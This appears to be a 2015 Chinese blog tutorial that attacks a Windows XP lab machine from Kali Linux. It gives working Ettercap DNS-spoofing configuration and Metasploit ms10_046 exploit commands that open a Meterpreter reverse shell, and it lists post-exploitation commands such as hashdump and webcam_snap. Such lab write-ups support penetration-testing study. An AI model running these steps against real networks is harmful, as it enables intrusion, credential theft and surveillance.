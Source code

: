 title: Metasploit Framework 快捷方式漏洞利用示例
date: 2015-05-15 16:30:00
tags:
- Penetration
- MSF
- Kali
permalink: MSF-MS10_046
---

## 一、说明

本文简单记录Kali Linux中使用Metasploit Framework入侵Windows XP的过程，利用的是古老的ms10_046快捷方式漏洞。

渗透测试平台Kali与靶机XP的IP地址分别如下：

系统 | IP地址
--- | ---
Kali Linux 1.1.0a| 10.10.10.128
Windows XP SP3 | 10.10.10.129

## 二、配置Ettercap

这里用到了Ettercap的DNS欺骗功能。

### 1) 配置`etter.conf`

使用`locate`命令找到`etter.conf`：
```bash
root@kali:~# locate etter.conf
/etc/ettercap/etter.conf
```

vim编辑`etter.conf`，把以下两项的数值改为非默认值：
```ini
[privs]
ec_uid = 65534                # nobody is the default
ec_gid = 65534                # nobody is the default
```

启用iptables：
iptables是一个配置Linux内核防火墙的命令行工具，它可以检测、修改、转发、重定向和丢弃 IPv4 数据包。
在`etter.conf`中找到`# if you use iptables:`，删除接下来的两行`redir_command_on = …`与`redir_command_off = …`前面的`#`：
```ini
# if you use iptables:
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```

### 2) 配置`etter.dns`

使用`locate`命令找到`etter.dns`：
```bash
root@kali:~# locate etter.dns
/etc/ettercap/etter.dns
```

编辑`etter.dns`，在最后添加：
```ini
*.com A 10.10.10.128
*.cn A 10.10.10.128
*.net A 10.10.10.128
```

其中`*.com/cn/net`是要欺骗的域名。

### 3) 启动Ettercap，开启局域网的DNS欺骗

```bash
root@kali:~# ettercap -T -q -i eth0 -P dns_spoof // //
```

这样，当靶机访问`*.com/cn/net`网站的时候，都会重定向到Kali Linxu。

例如，当在WinXP中访问`www.baidu.com`，Kali的Terminal中会显示：
```bash
dns_spoof: [www.baidu.com] spoofed to [10.10.10.128]
```

如果启动ettercap时提示`Incorrect number of token (///) in TARGET !!`，试着把参数`//`替换为`///`。这是因为IPv6需要在目标字段中额外添加一个`/`。

## 三、MSF的使用

另外打开一个Terminal，使用`msfconsole`命令启动MSF。

```bash
# 利用ms10_046漏洞
msf > use exploit/windows/browser/ms10_046_shortcut_icon_dllloader 
# 使用show option命令查看需要设置的字段，这里设置SRVHOST为本机IP地址
msf exploit(ms10_046_shortcut_icon_dllloader) > set SRVHOST 10.10.10.128
SRVHOST => 10.10.10.128
# 设置PAYLOAD为reverse_tcp
msf exploit(ms10_046_shortcut_icon_dllloader) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
# 使用show option命令查看需要设置的字段，这里设置LHOST为本机IP地址
msf exploit(ms10_046_shortcut_icon_dllloader) > set LHOST 10.10.10.128
LHOST => 10.10.10.128
# 使用exploit命令开始执行！
msf exploit(ms10_046_shortcut_icon_dllloader) > exploit
[*] Exploit running as background job.

[*] Started reverse handler on 10.10.10.128:4444 
[*] Send vulnerable clients to \\10.10.10.128\fJeXlyh\.
[*] Or, get clients to save and render the icon of http://<your host>/<anything>.lnk
[*] Using URL: http://10.10.10.128:80/
[*] Server started.
msf exploit(ms10_046_shortcut_icon_dllloader) > 
```

使用`exploit`启动漏洞利用程序后，可以看到`Using URL: http://10.10.10.128:80/`一行，意思是有漏洞的靶机访问`http://10.10.10.128/`时就会中招。前面之所以使用Ettercap，因为它可以把网段中所有访问`*.com/cn/net`的网址都重定向到`10.10.10.128`。

以上MSF的攻击步骤看似命令繁琐，其实只用到了以下命令：
```bash
use exploit/windows/browser/ms10_046_shortcut_icon_dllloader
set SRVHOST 本机IP
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 本机IP
exploit
```

在靶机XP中打开浏览器输入网址，在Kali的Terminal中就可以看到入侵成功，建立会话连接了：
```bash
[*] Meterpreter session 1 opened (10.10.10.128:4444 -> 10.10.10.129:1054) at 2015-05-15 10:54:09 +0800
```

最后，鱼已上钩，关闭Ettercap。

在MSF中使用`sessions`命令查看已经建立的连接，使用`sessions -i 会话号`进入会话。`background` `cat` `cd`与`pwd` `clearev` `download`与`upload` `edit` `execute` `getpid` `getsystem` `getuid` `hashdump` `idletime` `ipconfig` `lpwd` `lcd` `ls` `migrate` `ps` `resource` `search` `shell` `sysinfo` `screenshot` `webcam_list` `webcam_snap` 这些命令就可以派上用场了。Meterpreter命令的使用请参考 https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/ 。